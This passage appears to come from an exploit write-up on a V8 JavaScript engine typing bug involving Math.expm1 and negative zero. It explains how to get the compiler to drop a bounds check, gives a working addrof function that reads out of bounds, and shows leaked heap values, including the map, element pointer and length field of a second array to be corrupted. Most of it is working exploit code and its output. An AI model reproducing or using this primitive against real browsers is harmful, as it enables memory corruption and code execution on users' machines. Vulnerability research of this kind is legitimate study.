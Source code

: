 - As mentioned in the blog, we need to retain the `sameValue` node until the final optimization, folding it to `true`. This means the compiler shouldn't be aware that we're comparing with `-0` until the very last optimization step.  

- In escape analysis, we can replace -0 with `Object.is()`, and during simplified lowering, we achieve the desired range value, allowing us to remove the bounds check. The `assumed` return type becomes false, ensuring that it will always remain within the array limits.  

> 79: CheckBounds[VectorSlotPair(INVALID)] (#125:NumberMultiply, #58:NumberConstant, #45:Checkpoint, #43:Call)  [Static type: Range(0, 4), Feedback type: Range(0, 0)]  

![idekde](/images/math_expm_bug/image-10.png)  

## OOB Array Creation:
- By exploiting out-of-bounds (OOB) array access, we can leak the addresses of objects by keeping them close to a float array. After much trial and error, along with extensive monkey patching, I finally discovered a more effective method for achieving a memory leak.

```javascript
function addrof(x, i = 1) {
    let a = [1.1, 2.2, 3.3];
    let b = [5.5, 5.5, 5.5, 5.5, 5.5];
    let o = { m: -0 };
    let t = Object.is(Math.expm1(x), o.m) + 0;
    t *= (i + 0); // Convert i to an integral type.
    let val = a[t];
    oob_rw_buffer = b;
    return val;
}
```

- Here, `a` is the array from which we want to access out-of-bounds values, while `b` is the array where we intend to manipulate the length field.  

- **Tricky Part:** The parameter `i` has an ambiguous type, so I added `0` to it to ensure it is treated as an integral type. This adjustment, along with the feedback, enables the OOB read. Silly JavaScript engine!  

- Finally, I'm storing the context of `b` in the `oob_rw_buffer`. Below is a rough illustration of the leak following the adjustment to the fixed array `a`.

**Leaks of the current state:**
```
3) int: 0x7a7e2501459
4) int: 0x500000000
5) int: 0x4016000000000000
6) int: 0x4016000000000000
7) int: 0x4016000000000000
8) int: 0x4016000000000000
9) int: 0x4016000000000000
10) int: 0x375928582cf9    - (map of b)
11) int: 0x7a7e2500c21     - (property of b)
12) int: 0x65ad13cc1c9     - (element backing pointer of b)
13) int: 0x500000000       - (length field)
14) int: 0x7a7e2500561
15) int: 0x8000000000000000
16) int: 0x3ff199999999999a
17) int: 0x3ff199999999999a
18) int: 0x3ff199999999999a
19) int: 0x3ff199999999999a
```
